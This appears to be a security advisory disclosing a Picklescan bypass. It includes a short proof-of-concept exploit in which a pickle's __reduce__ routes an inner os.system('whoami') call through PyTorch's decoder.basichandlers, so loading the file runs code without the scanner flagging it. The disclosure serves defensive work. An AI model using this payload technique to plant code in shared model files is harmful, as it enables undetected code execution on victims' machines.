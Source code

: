 ### Summary

Using torch.utils.data.datapipes.utils.decoder.basichandlers function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch.utils.data.datapipes.utils.decoder.basichandlers function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```
import torch.utils.data.datapipes.utils.decoder as decoder

class EvilTorchUtilsDataDatapipesDecoder:
    def __reduce__(self):
        extension = 'pickle'
        class RCE:
            def __reduce__(self):
                return os.system, ('whoami',)
        data = pickle.dumps(RCE())
        return decoder.basichandlers, (extension, data)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu

